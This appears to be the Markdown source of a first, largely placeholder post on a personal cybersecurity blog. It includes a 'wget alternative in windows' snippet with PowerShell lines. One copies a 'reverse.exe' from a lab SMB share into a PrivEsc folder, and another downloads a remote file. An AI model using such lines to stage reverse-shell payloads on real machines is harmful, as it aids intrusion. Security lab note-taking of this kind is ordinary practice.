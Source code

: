 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```powershell
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
## Shell

```console
foo@bar:~$ whoami
foo
```

## Zsh
```zsh
/mnt/hgfs/c/users/prabh/documents/github                                                                    joshi@joshi
❯ git clone https://github.com/prabhatjoshi321/cyberblog.ml.git
Cloning into 'cyberblog.ml'...
remote: Enumerating objects: 6112, done.
remote: Total 6112 (delta 0), reused 0 (delta 0), pack-reused 6112
Receiving objects: 100% (6112/6112), 2.71 MiB | 415.00 KiB/s, done.
Resolving deltas: 100% (3565/3565), done.
```
